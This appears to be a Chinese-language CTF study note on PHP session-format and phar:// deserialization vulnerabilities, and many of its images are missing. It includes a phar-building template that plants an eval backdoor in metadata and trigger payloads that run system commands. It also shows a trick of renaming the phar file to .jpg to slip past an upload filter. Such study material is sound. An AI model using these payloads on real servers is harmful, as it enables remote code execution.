

payload构造：



# session反序列化漏洞

**session**

当session_start()被调用或者php.ini中session.auto_start为1时，PHP内部调用会话管理器，访问用户session被序列化以后，存储到指定目录（默认为/tmp）。

存取数据的格式有多种，常用的有三种

漏洞产生：写入格式和读取格式不一致



当网站序列化并存储session，与反序列化并读取session的方式不同，就可能导致session反序列化漏洞的产生



## session反序列化漏洞例题

题目：



这题思路就是我们要触发__wakeup魔术方法才能得到flag，但是页面没有反序列化来触发，所以可以利用hint.php文件
因为hint.php声明的session存储格式为php_serialize，而题目使用的是默认的php格式，所以默认页面以php格式处理session读取时就会触发漏洞

构造思路：



# phar反序列化漏洞

## 什么是phar

JAR是开发java程序一个引用，包括所有的可执行、可访问的文件，都打包进了一个JAR文件里，使得部署过程十分简单

`**like a java JAR,but for PHP**`

**PHAR（"Php ARchive"）是PHP里类似于JAR的一种打包文件。**

**对于PHP 5.3 或更高版本，Phar后缀文件时默认开启支持的，可以直接使用它。**

**文件包含：phar伪协议，可读取 .phar文件**

---


## phar结构



**第一部分**：

**stub phar 文件标识，格式为 xxx<?php xxx; \_\_HALT\_COMPILER();?\>; （头部信息）**



---

**第二部分：重点关注**

**manifest 压缩文件的属性等信息，以序列化存储;**

**phar存储的meta-data信息以序列化方式存储，当文件操作函数通过phar://伪协议解析phar文件时就会将数据反序列化**



---

**content 压缩文件的信息**



---

**signature签名，放在文件末尾**



---

## phar漏洞原理

**phar存储的meta-data信息以序列化方式存储，当文件操作函数通过phar://伪协议解析phar文件时就会将数据反序列化**，而这样的文件操作函数有很多。



## phar文件构造模版

```
<?php
    class A {
    所需代码；
    }
    
    @unlink('test.phar');	//删除之前的test.phar文件（如果有）
    $phar = new Phar("test.phar"); //创建一个phar对象，文件名必须以phar为后缀
    $phar->startBuffering();	//开始写文件
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); 	//写入stub
    $o = new TestObject();
    $o -> output='eval($_GET["a"]);';	//写入要执行的命令，给output成员属性赋值
    $phar->setMetadata($o); 	//将自定义的meta-data存入manifest
    $phar->addFromString("text.txt", "test"); 	//添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

然后在有反序列化漏洞的页面构造payload

```
?filename=phar://test.phar&a=system('ls');
```


命令成功执行

---


## phar使用条件

1. **phar文件能上传到服务器端；（后缀名不论，只要上传上去就行）**
2. **要有可用反序列化魔术方法作为跳板；**
3. **要有文件操作函数，如file_exists()，fopen()，file_get_contents()**
4. **文件操作函数参数可控，且：、/、phar等特殊字符没有被过滤**

## phar反序列化例题


题目解析：


**然后修改后缀为jpg上传（因为过滤了phar后缀）**

**最后使用md5_file函数和phar伪协议去读取我们上传的文件就能触发反序列化了。**

**payload**

```
post方法
file=phar://upload/test.jpg
```

